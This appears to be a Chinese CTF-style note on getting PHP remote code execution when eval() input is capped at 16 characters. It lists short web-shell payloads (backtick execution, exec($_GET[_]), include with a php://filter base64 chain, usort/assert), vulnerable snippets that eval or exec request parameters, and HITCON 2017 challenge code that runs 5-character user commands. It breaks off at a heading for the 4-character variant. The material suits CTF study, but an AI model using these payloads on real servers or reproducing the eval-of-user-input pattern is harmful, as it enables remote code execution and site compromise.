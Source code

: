 代码执行`eval()`参数限制在16个字符

```php
<?php
$param = $_REQUEST['param'];
if((strlen($param) < 17)) {
	eval($param);
}
eval('`$_GET[_]`;');
eval('exec($_GET[_]);');

eval('?><?=`$_GET[_]`;');
include$_GET[1];
include$_GET[1];&1=php://filter/read/convert.base64-decode/resource=N

usort(...$_GET);
1[]=test&1[]=phpinfo();&2=assert
```





https://www.leavesongs.com/SHARE/some-tricks-from-my-secret-group.html
最短的传参`$_GET[_]`，长度8位；9
<?=`$_GET[_]` 13位

```php
?><?=`$_GET[_]`； 16位
echo `$_GET[_]`； 16位
exec($_GET[_]); //15 无回显
eval($_GET[_]); // 15
5+10=15
exec 10
system()

```
#### 15位


- 命令执行5位 （HITCON 2017 Quals Babyfirst Revenge）

```php
<?php
$sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
	@exec($_GET['cmd']);
} else if (isset($_GET['reset'])) {
	@exec('/bin/rm -rf ' . $sandbox);
}
highlight_file(__FILE__);
```
 
- 命令执行4位（HITCON 2017 Quals Babyfirst Revenge v2）
